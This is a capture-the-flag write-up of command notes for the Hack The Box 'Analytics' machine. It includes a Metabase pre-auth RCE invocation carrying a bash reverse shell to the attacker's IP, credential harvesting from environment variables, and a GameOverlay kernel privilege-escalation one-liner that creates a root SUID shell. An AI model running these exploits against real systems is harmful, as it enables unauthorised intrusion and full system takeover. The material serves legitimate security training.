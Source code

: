 # 💎 HTB: Analytics - Command Notes

## 🔍 Phase 1: Scanning & Enumeration

```bash
ping <Analytics IP Address>                              # Confirm host is live (TTL hints Linux OS)
sudo nmap -T4 -A -p- <Analytics IP Address>              # Aggressive full-port scan
nano /etc/hosts                                          # Add domain mapping to access site
# Example entry:
# <Analytics IP Address> analytical.htb data.analytical.htb
```

> Discovered Metabase login at `http://data.analytical.htb`.

---

## 🚪 Phase 2: Exploitation & User Flag

### 🔍 Recon & CVE Identification

**CVE Used:** [CVE-2023-38646 - Metabase Pre-Auth RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token by visiting:
http://data.analytical.htb/api/session/properties
```

### 📡 Reverse Shell Setup

```bash
sudo nc -nlvp 4444                                      # Start listener on attacker machine

# Run exploit (Python PoC):
python3 main.py -u http://data.analytical.htb -t <token> -c "bash -i >& /dev/tcp/<Your IP>/4444 0>&1"
```

> Gained reverse shell as `metabase`.

### 🔑 Horizontal Privilege Escalation

```bash
env                                                    # Check for credentials in environment variables
ssh metalytics@<Analytics IP Address>                  # SSH into 'metalytics' using found creds
```

### 🧾 User Flag

```bash
cat /home/metalytics/user.txt
```

> Submit the user flag!

---

## 🛠️ Phase 3: Persistence & Root Flag

### 🔍 Manual Enumeration

```bash
id                                                     # Check privileges
mkdir /opt/utkarshcodes                                # Check write access to /opt (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null   # SUID/GUID files
cat /proc/version                                      # Get OS version to identify kernel-level exploits
```

> Identified vulnerable kernel version: Ubuntu 22.04.2

### 💣 Exploitation

**CVE Used:**  
- [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)  
- [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
# Execute GameOverlay exploit (one-liner):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> Root shell achieved via kernel exploit.

### 🔐 Root Flag

```bash
cat /root/root.txt
```